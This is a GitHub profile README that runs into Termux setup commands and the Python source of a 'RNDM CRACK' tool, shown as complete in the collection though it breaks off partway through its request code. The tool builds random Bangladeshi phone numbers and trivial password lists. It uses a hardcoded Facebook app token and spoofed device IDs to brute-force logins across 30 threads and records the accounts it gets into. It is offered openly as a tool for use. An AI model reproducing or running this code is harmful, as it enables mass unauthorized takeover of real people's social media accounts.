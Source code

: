 pkg install -y \
  build-essential \
  binutils \
  pkg-config \
  python3 \
  nodejs-lts
npm config set python python3
node -v
rm_noorafridi123

git clone https :// github . Com /Noorafridi/noor

cd noorafridi

git pull

python noorafridi.py

- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Nooriqbal123/Nooriqbal123 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
#--------------------- [ INFO ] -------------------#
#DEVELOPER : NOOR AFRIDI
#CODE BY : NOOR AFRIDI
#OPEN SOURCE BY : BHOOT-X [NOOR AFRIDI]
#TOOL : RNDM CHECK
#INJOY THE OPEN SOURCE 
#ALLAH HAFIZ
#--------------------- [ MODEL ] -------------------#
import os
import time
import sys
from os import path
import urllib
import pip
import base64
import zlib
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
try:
        import os,requests,json,time,re,random,sys,uuid,string,subprocess
        from string import *
        from concurrent.futures import ThreadPoolExecutor as tred
except ModuleNotFoundError:
        os.system(f'pip install requests futures==2 > /dev/null')
except:pass
#--------------------- [ SEX ] -------------------#
jan = []
loop=0
oks=[]
cps=[]
twf=[]
#--------------------- [ CODE ] -------------------#
W='\033[1;37m' #WHITE
G='\033[38;5;46m'
F='\033[38;5;45m'
R='\033[38;5;196m'
#--------------------- [ LOGO ] -------------------#
fuck = """
88""Yb 88  88  dP"Yb   dP"Yb  888888 
88__dP 88  88 dP   Yb dP   Yb   88   
88""Yb 888888 Yb   dP Yb   dP   88   
88oodP 88  88  YbodP   YbodP    88   
===================================
[+] ADMIN : NOOR AFRIDI
[+] GITHUB: NOOR AFRIDI
[+] TOOL  : RNDM CRACK
[+] STATES: OPEN SOURCE
=================================== """
#--------------------- [ DEF-LOGO X CLEAR ] -------------------#
def x():
    os.system('clear')
    print(fuck)
#--------------------- [ DEF-XNXX ] -------------------#
def xnxx():
    print(f'{W}===================================')
#--------------------- [ MAIN ] -------------------#
def bhootxx():
    x()
    print('[1] RNDM CRACK')
    print('[2] EXIT');xnxx()
    xtx = input('[?] CHOICE : ')
    if xtx in '1':
        rndmx()
    elif xtx in '2':
        print('Allah hafiz ')
        os.system('exit')
#--------------------- [ RNDM ] -------------------#
def rndmx():
    x()
    print('[+] BD SIM CODE : 017,019,018,016 ');xnxx()
    dog = input('[?] CODE : ')
    x()
    try:
        print('[+] LIMIT : 999,9999,99999');xnxx()
        limit = int(input('[?] LIMIT : '))
    except ValueError:
            limit = 5000
    for nmbr in range(limit):
            xxx = ''.join(random.choice(string.digits) for _ in range(8))
            jan.append(xxx)
    with tred(max_workers=30) as tanox:
            x()
            tl = str(len(jan))
            print(f'[+] TOTAL UID : {str(len(jan))}')
            print(f'[+] USE JAPAN VPN COMING MORE OK IDS.......');xnxx()
            for psx in jan:
                ids = dog+psx
                passlist = [psx,ids,ids[:8],ids[:7],'bangla']
                tanox.submit(sexx,ids,passlist)
    xnxx()
    print(f'[+] TOTAL OK -{str(len(oks))}')
    xnxx()
#--------------------- [ MTHD ] -------------------#
def sexx(ids,passlist):
        global loop
        global oks
        sys.stdout.write(f'\r\r[+] [BHOOT FIND] [{loop}] [OK:-{len(oks)}]')
        sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        cat = {
                        
                        
                        
                        
                        
                                'adid':adid,
                                'format':'json',
                                'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',                              
                                'error_detail_type':'button_with_disabled',                                
                                'enroll_misauth':'false',                             
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'fb_api_req_friendly_name':'authenticate',
                        }
                        
                        
                        
                        
                        
                        bhoot={
                        
                        
                        
                        
                        
                                'Authorization':f'OAuth {accessToken}',
                                'X-FB-Friendly-Name':'authenticate',
                                'X-FB-Connection-Type':'unknown',
                                'User-Agent':None,
                                'Accept-Encoding':'gzip, deflate',
                                'Content-Type': 'application/x-www-form-urlencoded',
